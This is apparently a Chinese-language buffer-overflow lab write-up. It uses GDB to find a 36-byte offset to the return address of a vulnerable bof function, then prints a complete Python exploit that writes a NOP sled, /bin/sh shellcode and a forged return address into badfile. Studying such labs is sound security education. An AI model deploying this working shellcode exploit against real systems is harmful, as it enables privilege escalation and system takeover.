 在这里可以看到执行完 bof 函数后的地址为 0x080404ff，即为 bof 函数的返回地址。

对 bof 函数进行反汇编：

![image](/001/04.png)

向 Badfile 中写入数据 AAAA，以便后续观察 buffer 在栈中的位置（图略）；

然后使用 GDB 在 bof 函数的 leave 处（0x080484a1）处设置断点，并查看栈内元素：

![image](/001/06.png)

可以发现buffer的起始地址与返回地址 0x080404ff 中间相隔 9*4=36 个字节。

接下来我们需要让 buffer 溢出，并在原来存放返回地址的位置写入恶意代码的地址。

由于在 GDB 中运行得到的 bof 函数的栈帧地址可能与直接运行时不同。我们可以通过填充 NOP 指令为恶意代码创建大量入口点。使用 NOP 填充使得我们不需要精确预测恶意代码被存放的地址，而只要保证写入的地址能藉由NOP“滑到”恶意代码。

攻击程序的 Python 代码如下：

```python
import sys

shellcode = (
    "\x31\xc0"             # xorl    %eax,%eax
    "\x50"                 # pushl   %eax
    "\x68""//sh"           # pushl   $0x68732f2f
    "\x68""/bin"           # pushl   $0x6e69622f
    "\x89\xe3"             # movl    %esp,%ebx
    "\x50"                 # pushl   %eax
    "\x53"                 # pushl   %ebx
    "\x89\xe1"             # movl    %esp,%ecx
    "\x99"                 # cdq
    "\xb0\x0b"             # movb    $0x0b,%al
    "\xcd\x80"             # int     $0x80
).encode('latin-1')

length = 517
buf = bytearray(0x90 for i in range(length))
shell_start = length - len(shellcode)
buf[shell_start:] = shellcode

for i in range(36):
	buf[i] = 0x41
ret = 0xbffff110 + 200
buf[36:40] = (ret).to_bytes(4, byteorder='little')

File = open("badfile", "wb")
File.write(buf)
File.close()
```

首先向字符串填充 NOP，然后在最末端插入提权 shellcode。由前面可知，我们需要先填充 36 个字节到达返回地址，并将返回地址修改为能到达恶意代码的入口地址即可。
这里写入的地址ret比较随意，只要保证在NOP的区间内即可，可选地址区间很大。
